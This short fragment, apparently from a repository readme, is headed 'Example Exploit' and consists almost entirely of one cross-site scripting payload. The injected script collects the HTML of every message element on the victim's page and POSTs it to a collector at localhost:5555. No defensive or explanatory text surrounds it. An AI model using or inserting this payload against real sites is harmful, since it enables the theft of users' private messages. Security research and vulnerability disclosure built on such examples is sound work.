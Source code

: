 Example Exploit:
====================
    <script>function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:5555/', {method: 'POST', body:'username=' + getText(),headers: { 'Content-Type': 'application/x-www-form-urlencoded', },}); </script>
